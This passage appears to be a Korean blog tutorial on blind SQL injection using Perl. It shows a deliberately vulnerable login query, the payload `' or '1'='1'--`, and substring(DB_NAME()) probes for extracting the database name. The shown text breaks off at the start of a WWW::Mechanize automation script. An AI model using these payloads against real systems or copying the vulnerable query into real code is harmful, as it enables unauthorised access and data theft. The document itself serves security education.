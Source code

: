 왜 하필 블라인드 기법이냐면, MASS SQL을 제외하고는 문자열이 가장 많이 들어가기 때문입니다.
단지 그 뿐입니다. ;-)


여기 취약한 페이지가 있습니다!
-------------------------------

단순하게 로그인 기능만 들어있는 사이트를 대상으로 합니다.

![login][img-1-resize]
*그림 1.* 취약점을 가진 로그인 화면 ([원본][img-1])

서버측의 코드 중 로그인을 수행하는 부분의 코드가 다음과 같다고 해보죠.
원래 이러면 안 되지만 취약점을 포함한채로 만들었습니다.
우리는 블라인드 SQL 삽입을 수행해야 하니까요! :-)

    #!sql
    strSQL="select * from member where user_id='"&id&"' and user_pw='"&password&"'"

`id`는 `test ' or '1'='1'--`으로, `password`는 `'blah'`로 SQL 삽입을 수행해볼까요?
이 경우 서버는 다음과 같은 코드를 수행할 것입니다.

    #!sql
    strSQL="select * from member where user_id='test' or '1'='1'--' and user_pw='blah'"

좀 무섭죠? :-)


데이터베이스 이름 찾기
-----------------------

우선 데이터베이스 이름을 찾아보도록 하죠.
일반적으로 DB 이름을 출력하기 위해 `DB_NAME()`을 이용합니다.
`mana`라는 계정은 이미 존재하는 계정입니다.

    #!sql
    strSQL="select * from member where user_id='mana' and substring(DB_NAME(),1,1)='a'--' and user_pw='blah'"

`user_id` 입력 부분부터 주석처리(`--`)까지 살펴보면 `substring`을 이용해
첫 번째 글자부터 한 글자를 잘라내어 `a`와 비교하는 것을 볼 수 있습니다.
만약 첫 글자가 `a`라면 결과는 참이 되면서 `mana`라는 계정으로 로그인되겠죠?
이러한 특징을 이용해 패턴을 뽑아본 코드는 다음과 같습니다.

    #!perl
    strSQL="select * from member where user_id='mana' and substring(DB_NAME(),$i,1)='$char'--' and user_pw='blah'"

`$i`와 `$char`를 반복적으로 변경하며 사이트에 요청을 보내는 펄 코드를 작성해보죠.

    #!perl
    #!/usr/bin/env perl

    use strict;
    use warnings;

    use WWW::Mechanize;

    my $mech = WWW::Mechanize->new();


[img-1]:          2015-12-17-1.png
[img-1-resize]:   2015-12-17-1_r.png
[cpan-lwp]:                 https://metacpan.org/pod/LWP
[cpan-www-mechanize]:       https://metacpan.org/pod/WWW::Mechanize
[cpan]:                     http://www.cpan.org/
[home-perlbrew]:            http://perlbrew.pl/
[twitter-vohrmana]:         http://twitter.com/#!/vohrmana
[wiki-sql-injection-blind]: https://en.wikipedia.org/wiki/SQL_injection#Blind_SQL_injection
[wiki-sql-injection]:       https://en.wikipedia.org/wiki/SQL_injection